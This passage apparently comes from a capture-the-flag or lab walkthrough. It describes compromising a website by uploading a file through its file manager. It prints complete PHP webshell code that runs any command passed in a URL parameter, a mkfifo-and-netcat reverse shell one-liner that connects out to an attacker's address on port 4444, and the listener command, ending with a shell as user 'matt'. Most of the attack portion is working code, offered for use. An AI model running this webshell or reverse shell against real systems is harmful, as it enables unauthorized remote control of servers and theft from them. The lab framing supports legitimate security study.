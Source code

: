 After some exploration of the website , I found the file Manager and was able to upload files successfully.

### Reverse Shell

I uploaded webshell and used it to get Reverse Shell.

Webshell : Create a php file and upload it .

```
<html>

<body>

<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">

<input type="TEXT" name="cmd" autofocus id="cmd" size="80">

<input type="SUBMIT" value="Execute">

</form>

<pre>

<?php

if(isset($_GET['cmd']))

{

system($_GET['cmd']);

}

?>

</pre>

</body>

</html>
```

Reverse Shell : Type the foloowing command to get the Reverse Shell

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your ip> 4444 >/tmp/f

```

Run the listener before executing the call and catch the connection once it’s set and listening:

```
nc -lp 4444
```

Yeah we got the reverse Shell with user as matt.
